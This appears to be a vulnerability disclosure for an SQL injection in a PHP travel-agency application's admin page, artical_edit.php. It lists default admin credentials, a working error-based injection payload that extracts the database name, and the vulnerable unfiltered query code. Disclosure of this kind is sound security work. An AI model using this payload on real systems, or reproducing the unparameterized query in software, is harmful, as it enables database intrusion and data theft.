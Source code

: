 # [Online Travel Agency System-SQL Injection-artical_edit.php]

## Basic Information

**[Bug Reporter]:**  DililLearngent

**[Application Vendors]:**  https://www.sourcecodester.com/online-travel-agency-system-using-php.html

**[Test Environment]:**  windows10+apache+php7.0

**[Install]:**

1. start **Apache** and **MySQL**.

2. **Extract** the downloaded source code **zip** file.

3. **Copy** the extracted source code folder and **paste** it into the **www directory**.

4. **Create** a **new database** naming **"travel_agency"**.

5. **Import** the provided **SQL** file. The file is known as **"travel_agency.sql"** located inside the extracted source code folder.

6. **Browse** the **Online Travel Agency System** in a **browser**. i.e. **http://localhost/Travel**

   **Admin Access Information:**

   Username: **admin**
   Password: **admin**

## Bug Information

**[Vulnerability type]:** SQL Injection

**[Vulnerability Url]:** `http://10.142.221.111/Travel/admin/artical_edit.php?page_id=22`    

**[Vulnerability Location]:** Travel/admin/artical_edit.php

**[Vulnerability Test]:**

1. payload:`page_id=22%27%20and%20extractvalue(1,concat(0x7e,(select%20database()),0x7e))--+`

   ![](../../img/20230428165830.png)

   The database name was obtained from the above payload execution.

**[code analysis]:**

Travel/admin/artical_edit.php

```php
<?php

$page_id=$_GET['page_id'];
  $sql="select * from pages where page_id='$page_id'";
$result=mysqli_query($con,$sql) or die(mysqli_error($con));
$row=mysqli_fetch_array($result);
	  
	  $title=$row["title"];
	  $description=$row["description"];

?>
```

The GET parameter `page_id` is obtained without any filtering and spliced directly into the sql execution statement, and display the errors returned by the database execution back to the front-end page.

